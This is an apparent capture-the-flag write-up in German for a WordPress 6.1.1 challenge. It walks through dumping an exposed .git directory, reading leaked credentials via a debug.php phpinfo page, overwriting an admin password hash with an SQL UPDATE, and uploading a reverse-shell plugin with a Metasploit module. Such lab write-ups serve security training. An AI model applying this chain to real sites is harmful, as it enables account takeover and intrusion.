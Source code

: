 Wordpress 6.1.1

DBUser: wordpress
Pass: flag{debug_s3cr3ts::GEazwtfP1cxJ}
.git/config
```
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[user]
	email = security-summit@hackhigh.edu
	name = Server
```

Da es ein .git Verzeichnis gibt, kann man mit dem githacker eine Version der Webseite herunterladen.

debug.php
```
<?php

if (!isset($_SERVER['PHP_AUTH_USER'])) {
        header('WWW-Authenticate: Basic realm="Wordpress Debug"');
        header('HTTP/1.0 401 Unauthorized');
        print('Unauthorized');
        exit();
} else if ($_SERVER['PHP_AUTH_USER'] !== 'debug' && $_SERVER['PHP_AUTH_PW'] !== 'TJF2cOkR96SGiAGeBFKxna1wEh') {
        header('WWW-Authenticate: Basic realm="Wordpress Debug"');
        header('HTTP/1.0 401 Unauthorized');
        print('Wrong password');
        exit();
}

phpinfo();
```

phpinfo gibt die erste Flag (und das DB-Passwort) in der ENV-Variable: WP_DB_PASSWORD
in der `wp-config.php` steht die Datenbank wordpress und der user wordpress für die mysql-Datenbank.

In der Tabelle `wp-users` finden wir den Nutzer
`sec-admin  | $P$BIAeHZoRw7af/OBbFHbG5kwVtnVoxp1`

Neues Passwort setzen:
`UPDATE `wp_users` SET `user_pass` = '$P$BzuizlISucg33Mee8f/kQZ4dXR2VbI0' WHERE user_login = 'sec-admin'`

Nachdem man das Passwort gesetzt hat kann man sich als admin an Wordpress anmelden.
Mit Meterpreter und dem Plugin `exploit/unix/webapp/wp_admin_shell_upload` lässt sich ein Plugin hochladen, welches eine Reverse-Shell enthält. 
Auf dem System liegt die Flagge unter `/flag/here_you_go`

